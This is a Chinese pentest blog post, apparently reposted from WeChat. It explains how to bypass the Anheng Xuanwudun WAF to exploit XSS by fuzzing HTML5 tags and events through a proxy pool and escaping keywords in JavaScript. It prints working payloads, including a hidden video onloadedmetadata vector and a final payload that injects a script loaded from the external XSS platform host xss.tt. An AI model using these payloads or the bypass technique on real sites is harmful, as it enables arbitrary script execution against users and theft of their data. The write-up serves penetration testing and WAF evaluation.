 ```yaml
---
title: XSS bypass 安恒玄武盾
abbrlink: 34838
date: 2019-06-10 17:42:05
categories: WEB
tags:
- XSS
---
```


*本文原发于 https://mp.weixin.qq.com/s/3Qz-ccL2Ynf1YnBlBxjgCQ , 仅在自己博客做个备份*

## 起因 

最初发现来自实验室的小伙伴,但是仅限于弹窗,后来发现这种类型的payload构造思路来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>)以及使用了fuzz的一些小技巧,可以实现任意js代码执行.

绕云waf简单的方式就是绕过cdn,找真实ip,翻一下历史解析记录基本都能找到,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

### fuzz起手


最近一次测试是在今年四月份,最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

能fuzz就不手测,如果被ban了ip就上代理池.好像burpsuite不支持代理池,所以简单的fuzz自己写个脚本调用下代理池就好了.

推荐一个[开源的代理池](<https://github.com/qiyeboy/IPProxyPool>),有官方提供的dockerfile(我之前使用的时候是有的,刚出去找没找到,不过手动搭建也很快),一键搭建.

玄武盾对常见关键字过滤的还是挺全的.但是直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.html5普及都这么多年了,玄武盾还没更新到html5,确实无语.

html5标签大概有100多个,可以用我收集的[html5标签字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

使用html5进行的xss有不少方法,以html5与xss到google搜索一下就可以找到很多相关的文章,还有一些靶场.

比如[HTML5_Security_Cheat_Sheet](<https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/HTML5_Security_Cheat_Sheet.md>)与[html5sec](<https://html5sec.org/>),这里就不多说了.

比较容易用来构造xss的标签有`video`.

随手插入一个`<video src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>`,成功

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[html5事件字典在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`(好像是余弦大佬提出的)不需要额外的交互,打开网站.当在指定音视频（audio/video）的元数据（如分辨率和时长）加载后触发.

记得把video标签加上hidden属性.不然动静太大了.

还有一些其他可用的video的事件,请见[他山之石 | 对 XSS 的一次深入分析认识](<https://www.freebuf.com/articles/web/195507.html>)

### 编码绕过

虽然绕过了关键字检测,但是如果直接用`alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

这里需要详细解释下:

浏览器首先会用HTML解析器对HTML文档进行词法解析,也就是说如果遇到HTML实体编码,会将其解码,但是注意,解码后并不会当做一个标签,也就是说,类似`&#x3c;&#x76;&#x69;&#x64;&#x65;&#x6f;&#x3e;`(`<video>`)这样的标签是不会解释的,但是在数据内部,比如`<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;: alert()" >`(`<a href="javascript: alert()" >`)则能执行js.

接着浏览器会调用js解析器对js脚本进行解释,如果遇到url编码,会调用url解析器进行解码.

如果js解析器遇到了js编码,且在字符串中,也就是`\u****`类型的,则会将其js解码后正常执行js代码需要注意的是比如引号,双引号这些控制字符就算被解码了,也不能生效.也就是说,不能通过js编码逃逸引号.

所以,最终事件内payload为:

`[1].find(\u0061lert)`

### 成功执行

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.

完美绕过玄武盾执行任意js代码.